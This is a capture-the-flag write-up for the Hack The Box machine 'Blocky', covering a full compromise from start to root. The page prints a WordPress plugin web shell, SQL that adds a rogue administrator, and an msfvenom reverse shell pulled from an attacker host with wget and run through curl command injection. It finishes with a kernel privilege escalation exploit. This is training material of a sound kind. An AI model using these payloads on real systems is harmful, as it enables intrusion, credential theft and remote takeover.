







# [Blocky](https://app.hackthebox.eu/machines/48)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.37 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.37 # quick scan
```

The quick scan returns fast with the following:


Start some scans for the HTTP website:

```bash
dirb http://10.10.10.37 -r
nikto -h http://10.10.10.37 --maxtime=30s
```

In the meantime, a manual inspection of the website shows the following:


There are a few input forms in the website. There is a comment form that adds replies to posts. It seems that the comments are staged with the text `"Your comment is awaiting moderation."`. This _may_ indicate a possible XSS for admin session token stealing, but the form does not seem to have an obvious XSS. 


Moving on for now... There is also a search form that also does not seem to be immediately vulnerable to SQL injection by trying:

- `' ORDER BY 1#`
- `" ORDER BY 1#`


Moving on for now... The post above does have some interesting info about a new plugin the website developers are making. The results from `dirb` should be done by now and show the following WordPress directories:


The `nikto` output doesn't have much info but does say XSS is possible with the `"The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS"` output from the scan. From the `dirb` output, the `/phpmyadmin` URI asks for a login and trying some easy wins does not work.

- `admin/admin`
- `admin/password`



Since the website is running WordPress, the `wpscan` utility can be used for a more specific website vulnerability scan:

```bash
wpscan --url http://10.10.10.37 --enumerate ap,at,cb,dbe
```

The output of that scan shows that the WordPress version and a few theme plugins called `twenty...` are out of date. With versions tied to services, running exploit searches is now possible:


No luck yet... The results from `dirb` show a `/plugins` directory that we can further scan:

```bash
dirb http://10.10.10.37/plugins -r
```


Browsing to `/plugins/files` shows some JAVA code files:


These can be downloaded and searched for strings. The original website post talks about a new plugin to track player info. Maybe these JAVA files have a hardcoded username and password to connect to a database?

```bash
wget http://10.10.10.37/plugins/files/BlockyCore.jar
wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
unzip -p BlockyCore.jar | strings
```

The `griefprevention-1.11.2-3.1.1.298.jar` looks like an external library since it has a version tied to it where `BlockyCore.jar` is likely a locally developed plugin. The strings inside `BlockyCore.jar` have an interesting value:


Trying this possible credential `root/8YsqfCTnvxAUeduzjNSXe22` on the following website login portals gives at least one valid login:

- `http://10.10.10.37/wp-login.php` --> does not work :disappointed:
- `http://10.10.10.37/phpmyadmin/` --> works! :happy:

From the `/phpmyadmin ` dashboard, the databases tab shows all active databases:



Running the following SQL query shows a user account `Notch`:

```mysql
SELECT user_login,user_pass,user_email FROM `wp_users`
```


This password hash can be fed to `hashcat` with the following command to run in the background:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
echo '$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/' > notch.hash
hashcat -m 400 -a 0 --quiet --status notch.hash rockyou.txt
```

While that runs, the phpmyadmin page may be used to get a reverse shell. Checking user permissions shows the following:

```mysql
show grants;
show variables like '%compile%';
```




So this machine is x86_64 Linux and the `root` phpadmin user has full database permissions. Next step is to try and upload a simple php shell but it gives an error:

- https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv

```mysql
select "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '/var/www/html/bubba.php';
```



This limits our ability to upload a shell from phpmyadmin... However, with full databse control, it is possible to create our own WordPress admin user to login to `http://10.10.10.37/wp-admin`. Maybe through that portal, it will be possible to upload a PHP shell? First, a new WordPress administrator user needs to be created. The following SQL will do that:

- WordPress user roles: https://wordpress.org/support/article/roles-and-capabilities/
- More info about WordPress user roles: https://kinsta.com/blog/wordpress-user-roles/
- WordPress user role strings: https://gist.github.com/octalmage/d748456cfd48db849207
- WordPress user role levels: https://codex.wordpress.org/User_Levels

```mysql
SET @user_login := 'bubba';
SET @user_pass  := 'bubba';
SET @user_email := 'bubba@bubba.com';

# create user
INSERT INTO `wp_users`
(`user_login`, `user_pass`, `user_email`, `user_registered`)
VALUES
(@user_login, MD5(@user_pass), @user_email, now());
SELECT @user_id := LAST_INSERT_ID();

# make the user an Admin
INSERT INTO `wp_usermeta`
(`user_id`, `meta_key`, `meta_value`)
VALUES
(@user_id, 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');

# give the Admin user full privileges 
INSERT INTO `wp_usermeta`
(`user_id`, `meta_key`, `meta_value`)
VALUES
(@user_id, 'wp_user_level', '10');
```

After running this SQL in the phpmyadmin panel, it is now possible to login to the WordPress admin panel at `http://10.10.10.37/wp-admin` :happy:!

 

From here, it is possible to install a new WordPress plugin as a shell. To do this, a basic PHP shell is needed:

- https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/WordPress/plugin-shell.php

```php
<?php
/*
 * Plugin Name: bubba
 */
if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  executeCommand($cmd);
  die();
}

function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
?>
```

Save this file as `bubba.php` and make it into a WordPress plugin by packaging the plugin in a zip file. When WordPress receives the zip file, it will extract it into the `wp-content/plugins` directory. Also, WordPress places the contents of the zip file into a folder that matches the name of the zip file itself with a `-1` appended to the end.

- Plugins require certain PHP comments to be considered valid: https://developer.wordpress.org/plugins/plugin-basics/header-requirements/

```bash
zip bubba.zip bubba.php
```

With this ZIP, go to Plugins > Add New > Upload Plugin > Browse > Install Now > Activate Plugin. With the plugin installed & activated, test it with the following:

```bash
curl http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php?cmd=whoami
```



Nice! That is remote code execution. With this, it is possible to upload and get a dedicated shell:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# check for HTTP download tool
curl --data-urlencode "cmd=which wget" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# download shell
curl --data-urlencode "cmd=wget -P /tmp http://10.10.14.23:8080/bubba.elf" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# check if it worked
curl --data-urlencode "cmd=ls -la /tmp" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# make executable
curl --data-urlencode "cmd=chmod +x /tmp/bubba.elf" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# execute in the background
curl --data-urlencode "cmd=/tmp/bubba.elf &" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
```

After this, a reverse shell is captured that gives a low privlidged shell as `www-data`:


After some enumeration at this level, there does not seem to be any obvious permissions/services/network vulnerabilities... The `user.txt` is owned by the user `notch` and the password crack from hashcat for that password didn't return any results from the RockYou wordlist... Perhaps there is a kernel exploit? The kernel info can be gathered by running the following:

```bash
uname -a
cat /etc/*-release
```



With this info, try looking for an exploit:

```bash
searchsploit "Linux Kernel" "Local Privilege Escalation" 4.4
```



There are quite a few to look at. The best contender is 45010 since the comments in the source file say it has been tested on the exact kernel version the target is running. 

```
...
Tested on Ubuntu 16.04 with the following Kernels
4.4.0-31-generic
4.4.0-62-generic
4.4.0-81-generic
4.4.0-116-generic
4.8.0-58-generic
4.10.0.42-generic
4.13.0-21-generic
...
```

Next step is to cross compile it, upload it, and execute it:

```bash
# execute on kali:
searchsploit -m 45010
gcc 45010.c -o 45010
python3 -m http.server 8080
# execute as www-data in target shell
cd /tmp
wget http://10.10.14.23:8080/45010 
chmod +x 45010
./45010
```


Nice! with that, both `user.txt` and `root.txt` can be found:


